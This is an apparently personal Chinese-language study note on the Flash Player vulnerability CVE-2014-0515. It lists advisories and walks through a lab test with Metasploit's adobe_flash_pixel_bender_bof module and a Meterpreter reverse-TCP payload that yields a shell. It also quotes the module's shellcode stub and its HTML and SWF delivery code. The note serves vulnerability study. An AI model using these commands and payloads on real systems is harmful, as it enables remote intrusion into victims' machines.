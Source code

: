 # CVE 2014-0515 渣渣学习笔记

## 主要报告
[CVE 通用漏洞与披露](http://www.scap.org.cn/CVE-2014-0515.html)
[CVE 官网](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0515)
[类似漏洞概况](http://www.cvedetails.com/cve/CVE-2014-0515/)

## 概况
Buffer overflow in Adobe Flash Player before 11.7.700.279 and 11.8.x through 13.0.x before 13.0.0.206 on Windows and OS X, and before 11.2.202.356 on Linux, allows remote attackers to execute arbitrary code via unspecified vectors, as exploited in the wild in April 2014.<br>


## 演示验证
[Japanese youtube](https://www.youtube.com/watch?v=mNApA4ubsbo)
https://www.rapid7.com/db/modules/exploit/multi/browser/adobe_flash_pixel_bender_bof

### shell
一番折腾之后选择了win7 sp1 32bit进行msf测试。<br>
kali linux进行测试验证，插件是flash_player_activex_13.0.0.182<br>
```
msf > use exploit/multi/browser/adobe_flash_pixel_bender_bof
msf exploit(adobe_flash_pixel_bender_bof) > set SRVHOST 192.168.50.132
msf exploit(adobe_flash_pixel_bender_bof) > set LHOST 192.168.50.132
msf exploit(adobe_flash_pixel_bender_bof) > set SRVPORT 80
msf exploit(adobe_flash_pixel_bender_bof) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(adobe_flash_pixel_bender_bof) > set SRVPATH /
msf exploit(adobe_flash_pixel_bender_bof) > exploit
```
其中192.168.50.132是本本机端口<br>
最后 生成 http://192.168.50.132:8080/S40YtnhUGivc9<br>
ie中输入这个网站，sessions -i 1 拿shell<br>
就渗透进去了(用来钓鱼那真是。。。)<br>

## 向大佬询问方法
看一些已经有的方法，flash过于复杂，先看一些典型的进行调试分析，没有捷径，只能慢慢来

## 找资料&分析poc
poc采用ruby语言
### 报告阅读(太概括了)
- [heap spraying](https://securelist.com/blog/incidents/59399/new-flash-player-0-day-cve-2014-0515-used-in-watering-hole-attacks/
    提到 movie.swf 和 include.swf 这两个exp样本，两个是在shellcode方面不同，其他类似<br>
    - 准备
        使用heap spray(简单的来说就是在堆栈上覆盖一大片的空指令如NOP)<br>
    - exploit
        1. 采用VirtualProtect改写段的读写权限<br>
        2. VirtualAlloc分配空间并把第二段shellcode拷贝到里面<br>
        3. 是搜索库函数，但是延迟大<br>
           另外一种是到了这里就查找flash10p.ocx的base address，但是需要Adobe Flash Player ActiveX and Cisco MPE才行，但是文中交待并没有明确的payload来分析，因为没有进行重放(为啥)
    - summary<br>
        We detect such exploits by AEP technology as PDM:Exploit.Win32.Generic and by heuristics as HEUR:Exploit.SWF.CVE-2014-0515.gen
    - got<br>
        无

- https://vuldb.com/?id.13085 none
- [较为详细的概括](http://cwe.mitre.org/data/definitions/119.html)
### day1 真是什么都没有摸索到

## 摸索

### 抓包
这个真是。。。抓了一个晚上包，找到swf，然后各种工具配置分析格式。。。。

### 分析msf
#### 初始化
```
'Space' => 2000,
'DisableNops' => true,
'PrependEncoder' => stack_adjust

def stack_adjust
    adjust = "\x64\xa1\x18\x00\x00\x00"  # mov eax, fs:[0x18] # get teb
    adjust << "\x83\xC0\x08"             # add eax, byte 8 # get pointer to stacklimit
    adjust << "\x8b\x20"                 # mov esp, [eax] # put esp at stacklimit
    adjust << "\x81\xC4\x30\xF8\xFF\xFF" # add esp, -2000 # plus a little offset
    adjust
end
```
这里主要配置了payload的一些格式，去除了NOP指令，而采用 stack_adjust 来填充<br>
>Thread Environment Block (TEB)<br>
>由TEB结构/*0x008*/ PVOID ImageBaseAddress;<br>

接下来on_request_exploit 就是主要的了，等待访问网页，然后发送已经构造好的.swf和html<br>
html主要用来触发网页请求获取swf。<br>

### 构造html和发送swf
```
def exploit_template(cli, target_info)
    swf_random = "#{rand_text_alpha(4 + rand(3))}.swf"
    flash_payload = ""
    get_payload(cli,target_info).unpack("V*").each do |i|
      flash_payload << "0x#{i.to_s(16)},"
    end
    flash_payload.gsub!(/,$/, "")


    html_template = %Q|<html>
    <body>
    <object classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab" width="1" height="1" />
    <param name="movie" value="<%=swf_random%>" />
    <param name="allowScriptAccess" value="always" />
    <param name="FlashVars" value="sh=<%=flash_payload%>" />
    <param name="Play" value="true" />
    </object>
    </body>
    </html>
    |
    return html_template, binding()
end
```
这个就是构造html
```
if request.uri =~ /\.swf$/
    print_status("Sending SWF...")
    send_response(cli, @swf, {'Content-Type'=>'application/x-shockwave-flash', 'Pragma' => 'no-cache'})
    return
end
```
这个就是发生构造的swf payload<br>
其中也看出了利用的swf是在/usr/share/metasploit-framework/data/exploits/之中(kali linux中)<br>

### Summary of day2
漏洞依旧没有进展，不过学习了很多，下一步仔细分析swf文件，这个msf shellcode里感觉好像找不到明显的漏洞点..完全没有经验的来搞真是曲折啊。。看来是要速看点flash漏洞分析的了。。<br>

## Reference
  http://cvedetails.com/cve/2014-0515/
  http://www.securityfocus.com/bid/67092
  http://helpx.adobe.com/security/products/flash-player/apsb14-13.html
  http://www.securelist.com/en/blog/8212/New_Flash_Player_0_day_CVE_2014_0515_used_in_watering_hole_attacks
  http://blog.trendmicro.com/trendlabs-security-intelligence/analyzing-cve-2014-0515-the-recent-flash-zero-day/




